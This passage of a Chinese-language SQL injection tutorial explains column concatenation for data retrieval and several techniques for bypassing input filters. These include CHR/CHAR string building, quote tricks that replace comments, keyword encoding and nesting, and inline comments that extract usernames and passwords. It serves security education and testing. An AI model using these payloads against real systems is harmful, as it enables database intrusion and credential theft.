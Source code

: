 **TIP**
从目标表返回多个列时，可以将它们串联到单个列中。 这使得检索更加简单，因为它只需要识别原始查询中的单个`varchar`字段即可：
- **Oracle:** `SELECT table_name||':'||column_name FROM all_tab_columns`
- **MS-SQL:** `SELECT table_name+':'+column_name from information_schema.columns`
- **MySQL:** `SELECT CONCAT(table_name,':',column_name) from information_schema.columns`

# 2.Bypassing Filters

在某些情况下，容易受到SQL注入攻击的应用程序可能会实现各种输入过滤器，从而阻止您不受限制地利用该缺陷。 例如，应用程序可能会删除或清除某些字符，或者可能会阻止常见的SQL关键字。 这种过滤器通常容易受到绕过攻击，因此在这种情况下，您应该尝试许多技巧。

## 2.1 Avoiding Blocked Characters
如果应用程序删除或编码了一些在SQL注入攻击中经常使用的字符，那么您可能仍然可以在没有这些字符的情况下进行攻击：
- 如果要注入数字数据字段或列名，则不需要单引号。 如果您需要在攻击有效载荷中引入字符串，则无需引号即可执行此操作。 您可以使用各种字符串函数来使用单个字符的ASCII代码动态地构建字符串。 例如，以下分别用于Oracle和MS-SQL的两个查询等效于`select ename,sal from emp where ename='marcus'`:
```
SELECT ename, sal FROM emp where ename=CHR(109)||CHR(97)||
CHR(114)||CHR(99)||CHR(117)||CHR(115)

SELECT ename, sal FROM emp WHERE ename=CHAR(109)+CHAR(97)
+CHAR(114)+CHAR(99)+CHAR(117)+CHAR(115)
```
- 如果注释符号被阻止，则即使不使用注释符号，您通常也可以对注入的数据进行处理，以使其不会破坏周围查询的语法。 例如，代替注入：
```
' or 1=1--
```
你可以注入:
```
' or 'a'='a
```
- 尝试将批处理查询注入MS-SQL数据库时，不需要使用分号分隔符。 只要您修复了批处理中所有查询的语法，无论是否包含分号，查询解析器都将正确解释它们。

## 2.2 Circumventing Simple Validation

某些输入验证例程使用简单的黑名单，并阻止或删除此列表中显示的所有提供的数据。 在这种情况下，应尝试进行标准攻击，以查找验证和规范化机制中的常见缺陷，如第2章所述。例如，如果`SELECT`关键字被阻止或删除，则可以尝试以下绕过方法：
```
SeLeCt
%00SELECT
SELSELECTECT
%53%45%4c%45%43%54
%2553%2545%254c%2545%2543%2554
```

## 2.3 Using SQL Comments

您可以通过将内联注释嵌入到符号/ *和* /之间，以与C ++相同的方式将其插入SQL语句中。 如果应用程序从输入中阻止或去除空格，则可以使用注释在注入的数据中模拟空格。 例如：
```
SELECT/*foo*/username,password/*foo*/FROM/*foo*/users
```
在MySQL中，甚至可以在关键字本身中插入注释，这提供了另一种绕过某些输入验证过滤器的方法，同时保留了实际查询的语法。 例如：
```
SEL/*foo*/ECT username,password FR/*foo*/OM users
```
